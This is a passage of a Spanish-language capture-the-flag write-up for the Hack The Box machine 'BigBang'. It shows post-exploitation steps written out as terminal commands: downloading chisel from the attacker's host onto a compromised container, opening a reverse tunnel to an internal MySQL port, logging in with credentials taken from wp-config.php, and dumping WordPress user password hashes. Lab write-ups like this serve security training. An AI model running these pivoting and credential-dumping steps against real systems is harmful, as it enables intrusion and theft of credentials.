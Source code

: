 Luego, desde la máquina comprometida, descargo el binario y preparo el túnel reverso

```terminal
www-data@8e3a72b5e980:/tmp$ wget http://10.10.16.49:8000/chisel_1.10.1_linux_amd64.gz

/home/kali/Documents/htb/machines/bigbang:-$ chisel server --reverse -p 4444

www-data@8e3a72b5e980:/tmp$ ./chisel_1.10.1_linux_amd64 client 10.10.16.49:4444 R:3306:172.17.0.1:3306
```

Accedo a la base de datos MySQL utilizando las credenciales extraídas del archivo `wp-config.php`. Una vez dentro, selecciono la base de datos de WordPress y consulto la informacion de lo usuarios existentes.

```terminal
/home/kali/Documents/htb/machines/bigbang:-$ mysql -u wp_user -p -h 127.0.0.1 -P 3306 
Enter password: wp_password

MySQL [(none)]> USE wordpress;

MySQL [wordpress]> SHOW tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

MySQL [wordpress]> SELECT * FROM wp_users;
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url                | user_registered     | user_activation_key | user_status | display_name    |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
|  1 | root       | $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1 | root          | root@bigbang.htb     | http://blog.bigbang.htb | 2024-05-31 13:06:58 |                     |           0 | root            |
|  3 | shawking   | $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./ | shawking      | shawking@bigbang.htb |                         | 2024-06-01 10:39:55 |                     |           0 | Stephen Hawking |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+-----------------+
```
